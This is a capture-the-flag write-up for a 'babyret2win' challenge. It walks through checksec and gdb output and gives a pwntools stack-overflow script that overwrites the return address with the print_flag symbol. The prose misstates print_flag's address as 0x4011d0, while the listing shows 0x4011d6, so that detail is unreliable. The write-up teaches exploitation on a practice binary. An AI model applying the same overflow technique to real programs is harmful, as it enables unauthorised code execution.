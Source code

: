 
This challenge was incredibly easy aswell I'm not even sure if its worth it to do a writeup, but here it is anyway.

Download binary from site:

<pre lang="md">$ wget https://ctf.mcpt.ca/media/problem/mXcRUMoBm9VNveWdDtaUYE1jrkkKZyRjNzNvBUhoJrQ/babybof.zip </pre>
Before running it I want to check the basic information. 

```bash 
$ file babyret2win
babyret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6699503ebd1ea7ab332f6db957bce4bd8abea64d, for GNU/Linux 3.2.0, not stripped
```

So, now we know that its a 64 bit ELF program, and not stripped. These are the most important parts. As it's not stripped it should be easy to debug and reverse engineer.

Lets check the protections: 

```shell 
$ checksec --file=babyret2win
[*] '/home/julianb/home/ctf/pwn/babyret2win/babyret2win/babyret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

Perfect! There's no PIE and no canary. We should be free to reverse engineer the program to find the address for the win function. Now we can run the file.

`$ ./babyret2win`

Wow thats a lot of text.... I dont think I'll put it all here as its just explaining how a ret2win works. 
At the end we get an input where we can enter our name. This is where we can do the exploit. 
First I will find the address for the win function with gdb. 

```shell
Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  puts@plt
0x00000000004010a0  fgets@plt
0x00000000004010b0  gets@plt
0x00000000004010c0  setvbuf@plt
0x00000000004010d0  fopen@plt
0x00000000004010e0  getc@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  print_flag
0x0000000000401226  main
0x00000000004013a0  __libc_csu_init
0x0000000000401410  __libc_csu_fini
0x0000000000401418  _fini
(gdb) 
```

So the name of the function we need to return to is `print_flag` and its address is `0x4011d0`. Great. Lets make the exploit!

```python
from pwn import *
import time

elf = context.binary = ELF('./babyret2win')
p = process()

#automate pressing enter 8 times to skip the tutorial
for i in range(8):
	p.sendline('')
	time.sleep(.05)

#create the payload by overflowing the buffer, finding the address for flag and packaging it
payload = b'A' * 56 + p64(elf.sym.print_flag)

p.sendline(payload)
p.interactive()
```

Now lets run it... 

...

Actually lets not, the tutorial is wayy too long so putting the output would mean including all that... yeah you'll just have to take my word for it. 